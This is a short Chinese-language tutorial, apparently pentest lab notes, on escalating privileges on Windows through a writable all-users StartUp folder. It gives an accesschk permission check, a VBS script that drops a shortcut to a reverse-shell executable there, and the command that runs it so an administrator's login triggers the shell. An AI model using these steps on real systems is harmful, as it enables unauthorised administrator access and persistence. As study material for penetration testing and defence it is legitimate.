 # 开机启动的应用程序利用

原理：每个用户都可以通过将快捷方式放置在特定目录中来定义在登录时启动的应用程序。Windows 还为所有用户启动的应用程序提供了一个启动目录：C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp 如果可以**在此目录中创建文件**，我们可以使用反向 shell 可执行文件就可以提升权限。

```bash
accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

将通过一个**vbs脚本来进行利用**。脚本内容如下：

```bash
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save
```

**调用脚本,等待管理员登录即可获得反向shell：**

```bash
cscript C:\PrivEsc\CreateShortcut.vbs
```
